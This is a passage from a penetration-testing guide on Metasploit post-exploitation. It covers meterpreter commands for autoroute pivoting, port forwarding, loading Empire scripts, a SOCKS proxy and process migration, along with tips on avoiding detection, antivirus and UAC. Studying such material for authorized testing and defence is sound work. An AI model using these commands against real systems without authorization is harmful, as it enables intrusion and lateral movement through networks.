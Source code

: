 ```
```
meterpreter > run post/windows/manage/autoroute
meterpreter > run autoroute -s <subnet>/24
meterpreter > run post/multi/manage/autoroute

# Port forwarding
meterpreter > portfwd add -l 3389 -p 3389 -r [target_ip]
```

## Advanced Techniques

### Using Powershell Empire with Metasploit

```
msf6 > use post/windows/manage/powershell/load_script
msf6 post(windows/manage/powershell/load_script) > set SESSION <session-id>
msf6 post(windows/manage/powershell/load_script) > set SCRIPT [empire_script]
msf6 post(windows/manage/powershell/load_script) > run
```

### Pivoting through Compromised Hosts

```
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION <session-id>
msf6 post(multi/manage/autoroute) > set SUBNET [internal_subnet]
msf6 post(multi/manage/autoroute) > run

# Start a SOCKS proxy
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set VERSION 5
msf6 auxiliary(server/socks_proxy) > set SRVPORT 1080
msf6 auxiliary(server/socks_proxy) > run
```

## Best Practices for Privilege Escalation

- **Document everything**: Always document which exploits were successful and the exact steps taken
- **Maintain a low profile**: Excessive scanning or brute-forcing can trigger alerts
- **Use resource scripts**: Create and use resource scripts to automate repetitive tasks
- **Consider OPSEC**: Be mindful of actions that might trigger security controls
- **Use native tools**: When possible, use built-in system tools to avoid detection
- **Test in stages**: Attempt simpler, less risky privilege escalation techniques before more complex ones
- **Have a backup plan**: Always have alternative exploitation paths in case primary methods fail
- **Clean up**: Remove any files, user accounts, or services created during the engagement

## Troubleshooting Common Issues

1. **Exploit fails to execute**:
   - Verify the target system's architecture matches the exploit
   - Check if antivirus is blocking the payload
   - Try a different payload or encoding method

2. **Session dies after privilege escalation**:
   - Use migration to move to a more stable process
   ```
   meterpreter > run post/windows/manage/migrate
   ```

3. **UAC blocks privilege escalation**:
   - Try different UAC bypass techniques
   ```